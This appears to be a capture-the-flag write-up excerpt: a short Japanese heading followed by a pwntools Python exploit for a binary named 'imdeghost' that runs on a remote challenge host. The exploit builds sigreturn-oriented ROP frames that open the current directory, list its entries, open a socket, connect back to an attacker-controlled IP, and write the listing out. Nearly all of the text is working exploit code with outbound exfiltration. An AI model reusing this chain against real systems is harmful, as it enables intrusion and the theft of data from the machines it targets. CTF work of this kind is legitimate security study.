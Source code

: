 ## Exploit code:
ファイル名を取得するためのpythonコード（サーバから取得する場合には、NATなどを別途設定する必要があります。）
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './imdeghost'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42007
  s = remote(HOST, PORT)
  ip_addr = 0xbe409f76  
else:
  s = process(BINARY)
  libc = elf.libc
  ip_addr = 0x0100007f  # 127.0.0.1 

s.recvuntil("for you will not be seeing it again.\n")

mem         = 0x6900000000
syscall_ret = 0x13370000004b # syscall; test r14,r14; jne 0x13370000003e; mov rax,r15; ret

def Sigreturn(rax, rbx, rcx, rdx, rsi, rdi, rbp, rsp, rip, r8, r9, r10, r11, r12, r13, r14, r15):
  buf  = p64(0)*5
  buf += p64(r8) + p64(r9) + p64(r10) + p64(r11) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
  buf += p64(rdi) + p64(rsi) + p64(rbp) + p64(rbx) + p64(rdx) + p64(rax) + p64(rcx) + p64(rsp) + p64(rip)
  buf += p64(0) + p64(0x33) + b"AAAAAAAA"*4 + p64(0)
  return buf

mem = 0x6900000000

buf  = p64(syscall_ret)
# sys_open("./", 0, 0x200000)
buf += Sigreturn(2, 0, 0, 0x200000, 0, mem + 0xe00, mem + 0x170, mem + 0xf0, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_getdents(0, mem+0xb00, 0x300)
buf += Sigreturn(78, 0, 0, 0x300, mem + 0xb00, 0, mem + 0x170, mem + 0xf0*2, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_socket(2, 1, 6)
buf += Sigreturn(0x29, 0, 0, 6, 1, 2, mem + 0x170, mem + 0xf0*3, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_connect(1, mem+0xe80, 0x10)
buf += Sigreturn(0x2a, 0, 0, 0x10, mem + 0xe80, 1, mem + 0x170, mem + 0xf0*4, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

# sys_write(1, mem+0xb00, 0x300)
buf += Sigreturn(1, 0, 0, 0x300, mem + 0xb00, 1, mem + 0x170, mem + 0xf0*5, syscall_ret, 0x100a, 0x100b, 0x100c, 0x100d, 0x100e, 0x100f, 0, 0xf)
buf += p64(syscall_ret)

buf += b"A"*(0xe00-len(buf))
```